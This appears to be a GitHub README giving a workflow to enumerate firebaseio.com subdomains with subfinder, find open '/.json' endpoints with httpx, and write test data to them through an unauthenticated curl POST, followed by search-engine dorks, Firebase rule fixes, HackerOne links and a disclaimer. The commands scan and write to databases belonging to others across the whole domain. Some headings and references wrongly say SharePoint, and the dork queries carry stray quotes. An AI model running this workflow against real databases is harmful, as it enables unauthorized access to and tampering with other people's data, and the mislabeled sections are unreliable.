 
# 📝 Firebase Subdomain Enumeration & PoC Testing

This repository provides a workflow to find subdomains of `firebaseio.com`, test them for public accessibility, and exploit a `.json` endpoint to check for write vulnerabilities. Additionally, mitigation steps are provided to fix the issue.

## ⌛ Requirements
- [Subfinder](https://github.com/projectdiscovery/subfinder)
- [Httpx](https://github.com/projectdiscovery/httpx)
- Curl

## 🔍 Workflow

### ✅ Subdomain Enumeration
Use `subfinder` to enumerate subdomains for `firebaseio.com`:

```bash
subfinder -d firebaseio.com -o subdomains.txt
```

### ✅ Test Subdomains
Once subdomains are collected, use `httpx` to check `.json` endpoints for accessible responses (HTTP status code 200):

```bash
httpx -l subdomains.txt -path "/.json" -mc 200 -o valid_subdomains.txt
```

### ✅ PoC Testing
Use `curl` to send a POST request to the `.json` endpoint to test if data can be written without authentication:

```bash
curl -X POST https://<subdomain>.firebaseio.com/.json -d '{"test":"poc"}' -H "Content-Type: application/json"
```

If successful, the server is vulnerable to unauthenticated write access.

### 🔨 How to Fix it :
To secure the Firebase database:

1. **Set Firebase Database Rules**:
   - Open the Firebase Console.
   - Go to *Database > Rules*.
   - Update the rules to restrict access only to authenticated users. Example:
     ```json
     {
       "rules": {
         ".read": "auth != null",
         ".write": "auth != null"
       }
     }
     ```

2. **Audit Subdomains**:
   - Ensure there are no unused or publicly misconfigured Firebase databases.

3. **Monitor Activity Logs**:
   - Use Firebase to monitor access logs for suspicious activities.
   
## 📝 Alternative Methods to Identify SharePoint Sites

### Using Search Engines
- **FOFA**:  
  Query: `header="domain="firebaseio.com""`

- **Shodan**:  
  Query: `http.title:"Firebase""`

- **ZoomEye**:  
  Query: `site:"firebaseio.com""`

## ⭐ References

Here are real-world examples of SharePoint vulnerabilities reported on HackerOne :

- [HackerOne Report 1065134](https://hackerone.com/reports/1065134)  
- [HackerOne Report 1447751](https://hackerone.com/reports/1447751)  
- [HackerOne Report 736283](https://hackerone.com/reports/736283)  
- [HackerOne Report 684099](https://hackerone.com/reports/684099)


## ⚠️ Disclaimer
This script is intended for educational purposes and for security testing of systems you own or have explicit permission to test. Do not use this for unauthorized activities.

## 💰 Support Me  

If you find this work helpful, you can support me:  
- [![Buy Me a Coffee](https://www.buymeacoffee.com/assets/img/custom_images/yellow_img.png)](https://buymeacoffee.com/ghost_sec)  

Thanks for your support! ❤️
